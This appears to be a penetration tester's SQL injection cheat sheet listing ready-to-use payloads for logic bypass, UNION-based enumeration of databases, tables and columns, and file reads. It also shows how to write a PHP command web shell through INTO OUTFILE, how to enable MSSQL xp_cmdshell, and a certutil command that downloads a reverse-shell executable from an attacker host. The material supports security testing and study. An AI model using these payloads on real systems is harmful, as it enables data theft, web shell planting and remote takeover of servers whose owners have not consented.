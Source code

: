 PortSwigget Cheat Sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

Pentestermonkey SQL injection cheat sheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

## Logic
**Server expects string**

	1' or 'a'='a
	1' or 'a'='b
	') or 1=1; -- -

**Server expects integer**

	1 or 'a'='a'
	1 or 'a'='b'

## Union Select
	1' UNION SELECT null; -- -
	1' UNION SELECT null,null; -- -
	...
	Until the number of fields is found. Then change null for string or integer to find it's type

## Injections

### Info
	1' UNION SELECT null,@@version-- -
	1' UNION SELECT null,version()-- -
	1' UNION SELECT null,sqlite_version()-- -
	1' UNION SELECT null,* FROM v$version-- -
	1' UNION SELECT null,@@database-- -
	1' UNION SELECT null,database()-- -
	1' UNION SELECT null,* FROM information_schema.tables-- -
	1' union select 1,group_concat(schema_name)from information_schema.schemata-- -

### Tables
	1' UNION SELECT null,table_name FROM information_schema.tables-- -
	1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = database()-- -
	1' union select 1, table_name FROM information_schema.tables-- -

### Columns
	1' UNION SELECT null,column_name FROM information_schema.columns where table_name = 'users_owgtcb'-- -
	1' union select 1,group_concat(column_name) from information_schema.tables where table_schema = database()-- -
	id=1' union select 1, column_name FROM information_schema.tables-- -

### Write files
	1' union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/shell.php' from [database].queue-- -

###### Write CMD shell
	 1' union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from [database].queue-- -

### Read files
	1' UNION SELECT 1,LOAD_FILE("/var/www/html/index.php")-- -

## Microsft SQL Server
**Activate xp_cmdshell**

	'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

Execute command line commands

	'; EXEC xp_cmdshell '[Command]'; --
	'; EXEC xp_cmdshell 'certutil -urlcache -f http://[Attacker IP]:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --


